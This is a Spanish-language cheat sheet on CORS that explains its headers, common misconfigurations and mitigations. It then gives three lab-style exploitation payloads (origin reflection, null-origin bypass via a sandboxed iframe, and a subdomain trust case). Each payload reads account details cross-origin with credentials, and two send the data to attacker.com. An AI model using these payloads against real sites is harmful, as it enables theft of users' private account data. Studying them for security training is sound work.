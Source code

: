 ```yaml
---

### 🌐 **CORS (Cross-Origin Resource Sharing) Cheat Sheet**  

---
```


#### ❓ **¿Qué es CORS?**  
CORS (Cross-Origin Resource Sharing) es un mecanismo que permite que un servidor indique qué orígenes (dominios, esquemas o puertos) pueden acceder a sus recursos.  
Por defecto, los navegadores aplican la política de **Same-Origin Policy**, que restringe el acceso a recursos desde diferentes dominios.  

---

### 🔧 **Funcionamiento de CORS**  
Cuando una aplicación realiza una solicitud HTTP a un dominio diferente (Cross-Origin), el navegador puede enviar una **preflight request** usando el método **OPTIONS** para verificar si el servidor permite la solicitud.  

El servidor responde con las cabeceras adecuadas:  

- **`Access-Control-Allow-Origin`**: Indica qué orígenes están permitidos (`*` para todos).  
- **`Access-Control-Allow-Methods`**: Métodos HTTP permitidos (e.g., `GET`, `POST`, `PUT`).  
- **`Access-Control-Allow-Headers`**: Encabezados que se pueden usar en la solicitud.  
- **`Access-Control-Allow-Credentials`**: Permite el uso de credenciales si está en `true`.  

---

### 💥 **Vulnerabilidad de CORS**  

#### ⚠️ **1. Permitir todos los orígenes (`*`)**  
Esto puede permitir el acceso a datos sensibles desde cualquier sitio, lo que facilita ataques **CSRF**.  
```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

#### 🚩 **2. Validación débil del origen**  
No verificar correctamente los orígenes permite que **cualquier dominio** acceda a los recursos.  

---

### ✅ **Ejemplo de Configuración Segura**
Permitir solo dominios específicos y métodos seguros:
```http
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type
Access-Control-Allow-Credentials: true
```

---

### 🛡️ **Medidas de Mitigación**  
1. **Restringir Orígenes:** Evitar el uso de `*` y permitir solo dominios de confianza.  
2. **Validar las Cabeceras:** Asegurarse de que las cabeceras estén correctamente configuradas.  
3. **Monitoreo y Auditoría:** Realizar pruebas periódicas para verificar configuraciones inseguras.  

---

## 🔥 **Cabeceras CORS y Sus Funciones**  
| Cabecera                        | Función                                                                                | Ejemplo                                         |
|--------------------------------|------------------------------------------------------------------------------------------|-------------------------------------------------|
| `Access-Control-Allow-Origin`   | Especifica qué orígenes pueden acceder al recurso.                                        | `Access-Control-Allow-Origin: https://example.com` |
| `Access-Control-Allow-Credentials` | Permite el uso de credenciales (cookies, autenticación HTTP).                             | `Access-Control-Allow-Credentials: true`           |
| `Access-Control-Allow-Methods`  | Métodos HTTP permitidos (`GET`, `POST`, `PUT`).                                           | `Access-Control-Allow-Methods: GET, POST`          |
| `Access-Control-Allow-Headers`  | Cabeceras HTTP permitidas en la solicitud.                                                | `Access-Control-Allow-Headers: Content-Type`       |
| `Access-Control-Expose-Headers` | Cabeceras expuestas al navegador.                                                          | `Access-Control-Expose-Headers: X-Kuma-Revision`    |
| `Access-Control-Max-Age`        | Tiempo en segundos que el resultado de la preflight se almacena en caché.                   | `Access-Control-Max-Age: 3600`                      |
| `Access-Control-Request-Method` | Método HTTP que se usará en la solicitud real (en preflight).                             | `Access-Control-Request-Method: DELETE`             |
| `Access-Control-Request-Headers`| Cabeceras HTTP que se enviarán en la solicitud real.                                       | `Access-Control-Request-Headers: X-PINGOTHER`       |
| `Origin`                        | Especifica el origen de la solicitud.                                                      | `Origin: https://malicioso.com`                     |

---

## 💣 **Payloads y Ataques Relacionados**

### 🐚 **Lab 1: Origin Manipulation**
**Request:**
```http
Origin: https://gustavo.com
```
**Response:**
```http
Access-Control-Allow-Origin: https://gustavo.com
Access-Control-Allow-Credentials: true
```

**Exploitation:**
```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://target.com/accountDetails', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
      fetch('/log?data=' + xhr.responseText);
    }
  };
  xhr.send(null);
</script>
```

---

### 🕵️ **Lab 2: Origin Null Bypass**
**Request:**
```http
Origin: null
```
**Response:**
```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**Exploitation:**
```html
<iframe style="display: none;" sandbox="allow-scripts" srcdoc="
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://target.com/accountDetails', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
      fetch('https://attacker.com/log?data=' + xhr.responseText);
    }
  };
  xhr.send(null);
</script>"></iframe>
```

---

### 🎯 **Lab 3: Subdomain Takeover with CORS**
**Request:**
```http
Origin: https://gustavo.target.com
```
**Response:**
```http
Access-Control-Allow-Origin: https://gustavo.target.com
Access-Control-Allow-Credentials: true
```

**Exploitation:**
```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://target.com/accountDetails', true);
  xhr.withCredentials = true;
  xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
      fetch('https://attacker.com/log?data=' + xhr.responseText);
    }
  };
  xhr.send(null);
</script>
```

---

💾 **Guarda esta guía en Obsidian para tener siempre a mano las técnicas y ataques relacionados con CORS!** 🚀